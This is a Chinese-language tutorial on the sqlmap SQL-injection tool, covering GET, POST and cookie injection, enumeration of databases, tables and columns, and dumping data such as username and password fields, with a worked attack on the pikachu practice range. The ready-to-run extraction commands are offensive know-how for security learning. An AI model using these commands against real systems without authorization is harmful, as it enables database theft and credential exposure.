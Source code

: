 <h1>一、Sqlmap是什么</h1>

SQLmap是一款由Python语言编写的开源SQL注入检测与利用工具，它具备强大的自动化功能，能够自动检测和利用Web应用程序中的SQL注入漏洞。它支持多种数据库管理系统，包括MySQL、Oracle、PostgreSQL、Microsoft SQL Server等，并提供了丰富的特性和选项，如指纹识别、数据库枚举、数据提取、文件访问、命令执行等。kali自带该工具，路径为 /usr/share/sqlmap </br>

<h1>二、Sqlmap使用方法</h1>

<h2>1.指定要扫描的目标(GET)</h2>

-u (url)参数，指定需要检测的url，单/双引号包裹。中间如果有提示，就输入y。 </br>
提示：SQLmap不能直接「扫描」网站漏洞，先用其他扫描工具扫出注入点，再用SQLmap验证并「利用」注入点。 </br>
举例：

```
# 注意，这里是适用于get请求的接口扫描
sqlmap -u 'http://192.168.31.180/sqli-labs-master/Less-1/?id=1'
```

扫描结果为

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/4a45baf9-166f-4093-96a8-ebbcdddf2fa3)

<h2>2.多目标扫描(GET)</h2>

准备一个【文本文件】，写上需要检测的多个url，一行一个。 </br>
-m (multi)指定文件，可以「批量扫描」文件中的url。 </br>

逐个扫描url，需要确认就按y。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/98c72d58-1c82-4f72-b7f3-b3e6ac07a174)

扫描完一个，就会提示存在的注入点。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/83babbab-9656-474b-9e79-9a7b5228d6a6)

然后再按y扫描下一个url。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/94f61f22-6a1f-43d9-bbc6-a7e72ef7c187)

<h2>3.指定要扫描的目标(POST)</h2>

检测「post请求」的注入点，使用BP等工具「抓包」，将http请求内容保存到txt文件中。

-r 指定需要检测的文件，SQLmap会通过post请求方式检测目标。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/b1afbdb0-fedb-4f70-8739-54489501217d)

<h2>4.指定要扫描的数据库/表/字段</h2>

-D (Database)指定目标「数据库」，单/双引号包裹，常配合其他参数使用。 </br>

-T (Table)指定目标「表」，单/双引号包裹，常配合其他参数使用。 </br>

-C (Column)指定目标「字段」，单/双引号包裹，常配合其他参数使用。 </br>

一般会与其他参数结合进行使用，逐级进行数据获取，比如：

```
#1.获取所有库名
python sqlmap.py -r post_payload.txt --dbs

#2.进入指定数据库，获取库内所有表名
python sqlmap.py -r post_payload.txt -D pikachu --tables

#3.进入指定数据库的数据表，获取表内所有字段名
python sqlmap.py -r post_payload.txt -D pikachu -T users --colums
```

<h2>5.cookie注入</h2>

--cookie 指定cookie的值，单/双引号包裹。

```
sqlmap -u "http://xx?id=x" --cookie 'cookie'
```

<h1>三、脱库</h1>

-a (all)就是 all 的意思，获取所有能获取的内容，会消耗很长时间，不建议使用。

```
sqlmap -u "http://xx?id=x" -a
```

<h2>1.获取数据库</h2>

(1)获取数据库版本 </br>

```
sqlmap -u 'http://xx/?id=1' -b
```

(2)获取当前使用的数据库 </br>

```
sqlmap -u 'http://xx/?id=1' --current-db
```

(3)获取所有数据库 </br>

```
sqlmap -u 'http://xx/?id=1' --dbs
```

<h2>2.获取数据表</h2>

(1)获取表，可以指定数据库 </br>

```
sqlmap -u 'http://xx/?id=1' -D 'security' --tables
```

(2)同时获取多个库的表名，库名用逗号分隔 </br>

```
sqlmap -u 'http://xx/?id=1' -D 'security,sys' --tables
```

(3)不指定数据库，默认获取数据库中所有的表 </br>

```
sqlmap -u 'http://xx/?id=1' --tables
```

<h2>3.获取字段</h2>

(1)获取字段，可以指定库和表</br>

```
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --columns
```

(2)不指定表名，默认获取当前数据库中所有表的字段</br>

```
sqlmap -u 'http://xx/?id=1' --columns
```

<h2>4.获取字段类型</h2>

--schema 获取字段类型，可以指定库或指定表。不指定则获取数据库中所有字段的类型。</br>

<h2>5.获取数据(脱库脱数据)</h2>

--dump 获取值，也就是表中的数据。可以指定具体的库、表、字段。

```
# 获取security数据库中users表的username和password字段，并将数据脱出数据库存放在攻击终端本地
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'username,password' --dump
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/5b3d1de9-82e2-4293-a22a-86a27bafeac4)

获取指定库中所有表的数据。

```
sqlmap -u 'http://xx/?id=1' -D 'security' --dump
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/5882be28-3928-4cbf-b891-370e0b700a56)

默认获取表中的所有数据，可以使用 --start --stop 指定开始和结束的行，只获取一部分数据。

```
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --start 1 --stop 5  --dump
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/cb8d424b-beb4-4e53-b935-823e31c1caa0)


<h1>四、实际案例--针对pikachu靶场sql注入漏洞使用sqlmap进行攻击</h2>

抓取存在POST类型请求的具有sql注入漏洞的请求包

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/8bf89090-2d19-4dd1-9dab-1364fbee8e6c)

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/d7a31391-a149-41b7-99a8-c6b0f47f850a)

将请求包存储为文本类型的文件post_payload.txt,并使用以下的命令进行扫描，扫描内容为查看所有数据库(--dbs)

```
 python sqlmap.py -r post_payload.txt --dbs
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/abd9b48c-49e6-487d-8cf5-15088135593b)

